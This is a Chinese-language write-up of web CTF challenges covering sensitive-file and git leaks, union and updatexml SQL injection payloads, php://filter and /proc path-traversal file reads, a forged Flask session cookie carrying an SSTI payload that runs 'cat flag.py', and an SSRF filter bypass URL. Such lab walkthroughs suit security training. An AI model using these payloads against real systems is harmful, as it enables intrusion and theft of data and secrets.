

# 0x01 [信息搜集]
## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：


发现index.php~，得到第二部部分flag: s_v3ry_im


发现.index.php.swp，下载后通过命令还原


```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```


## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件


访问index.html，得到flag


# 0X02 [SQL注入]

## SQL注入-1

尝试`id=1' and 1=2 --+` 页面无显示，`id=1' and 1=1 --+` 返回内容等于`id=1`,应该是字符型注入：


尝试`id=1' and 1=1  order by 4--+` 页面无显示, 返回数据项为3项;

相关playlod如下
```
--爆库名
?id=99' union all select 1,2,database() --+
--爆表
?id=99' union all select 1,2,group_concat(table_name) from  information_schema.tables where table_schema=database() --+
--爆列
?id=99' union all select 1,2,group_concat(column_name) from  information_schema.columns where table_schema=database()  and table_name='fl4g'--+
--爆值
?id=99' union all select 1,2,fllllag from fl4g --+
```

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123


> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入

**原理**:

> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```


# 0x03 [任意文件读取]
## afr_1
利用php伪协议,通过filter或文件（源码）的BASE64 输出，再解码：
```
?p=php://filter/convert.base64-encode/resource=flag
```


## afr_2
查看源码，看到有图片路径引用


尝试访问`/img/`目录

判断可能存在目录穿透，尝试访问`/img../`,得到FLAG


## afr_3

通过URL 观察得知存在文件读取，输入flag，显示无权限：


应该是有过滤或其他WAF需要绕过，随便输入一个文件名，发现报错信息会暴露服务器文件路径：


尝试cmdline(`?name=../../../../proc/self/cmdline`),发现存在python文件执行:


访问`name=./../../../proc/self/cwd/server.py`得到python源码：

整理后如下：
```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None:
        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
    template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
        session['n1code'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

  if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)

```
审计后可以发现：
-  `flag`被过滤: ```if page.find('flag')>=0:  page = 'notallowed.txt' ```
-  此处代码将SEESION中的变量[n1code]的值直接拼接到template中，且使用`render_template_string`进行渲染和输出，存在`SSTI`:
```python
    if session['n1code'] is not None:
         template = '''<h1>N1 Page</h1> <div class="row>
          <div class="col-md-6 col-md-offset-3 center"> Hello : %s, 
          why you don't look at our <a href='/article?name=article'>article</a>
          ? </div> </div> ''' % session['n1code'] 
          session['n1code'] = None 
   return render_template_string(template)
```
- 伪造session用的`key`在`key.py`中: `?name=./../../../proc/self/cwd/key.py`


`Drmhze6EPcv0fN_81Bj-nA`

那么利用flask `SSTI`  进行cookie伪造达到注入：
- 使用工具[flask_session_cookie_manager](https://noraj.github.io/flask-session-cookie-manager/) 得到伪造的cookie：
```cmd
python flask_session_cookie_manager3.py  encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"

.eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.Yb7zyg.oiV-yqeTY7xhwj5Nr0eSQ8vmp8o
``` 
- 抓包进行注入：


>漏洞利用详解[python-flask-ssti(模版注入漏洞)](https://www.cnblogs.com/hackxf/p/10480071.html)

> [linux proc 目录利用](../doc/afr.md)
> 
> /proc目录通常存储着进程动态运行的各种信息，本质上是一种虚拟目录。
> - 目录下的cmdline可读出比较敏感的信息：/proc/[pid]/cmdline
> - 通过cwd命令可以直接跳转到当前目录:/proc/[pid]/cwd ，
> - 环境变量中可能存在secret_key，这时也可以通过environ进行读取：/proc/[pid]/environ
>
> **其中pid可用self代替，表示当前用户进程**


# 0x03 [WEB进阶]

## SSRF

书上原题，点击`intersting challenge` 可以看到源码：
```php
<?php 
highlight_file(__FILE__);
function check_inner_ip($url) 
{ 
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url); 
    if (!$match_result) 
    { 
        die('url fomat error'); 
    } 
    try 
    { 
        $url_parse=parse_url($url); 
    } 
    catch(Exception $e) 
    { 
        die('url fomat error'); 
        return false; 
    } 
    $hostname=$url_parse['host']; 
    $ip=gethostbyname($hostname); 
    $int_ip=ip2long($ip); 
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16; 
} 

function safe_request_url($url) 
{ 
     
    if (check_inner_ip($url)) 
    { 
        echo $url.' is inner ip'; 
    } 
    else 
    {
        $ch = curl_init(); 
        curl_setopt($ch, CURLOPT_URL, $url); 
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        curl_setopt($ch, CURLOPT_HEADER, 0); 
        $output = curl_exec($ch); 
        $result_info = curl_getinfo($ch); 
        if ($result_info['redirect_url']) 
        { 
            safe_request_url($result_info['redirect_url']); 
        } 
        curl_close($ch); 
        var_dump($output); 
    } 
     
} 

$url = $_GET['url']; 
if(!empty($url)){ 
    safe_request_url($url); 
} 
?>
```
**代码审计** ：

首先程序通过`self_request_url`函数进行参数检验，`self_request_url`函数中又通过`check_inner_ip`进行本地IP校验，如果为本地则退出；
审计`check_inner_ip`，可知函数中:
- 通过正则校验，参数需为http或https协议，
- 通过`parse_url`函数进行解析，获取到url中`host_name`进行校验
审计`safe_request_url`，可知函数中:
- 使用CURL库进行url访问，并打印内容

故本题可以利用parse_url函数与CURL解析规则不一致[详解这篇文章](https://www.cnblogs.com/tr1ple/p/11137159.html)，payload:
```
http://a@127.0.0.1:80@baidu.com/flag.php
```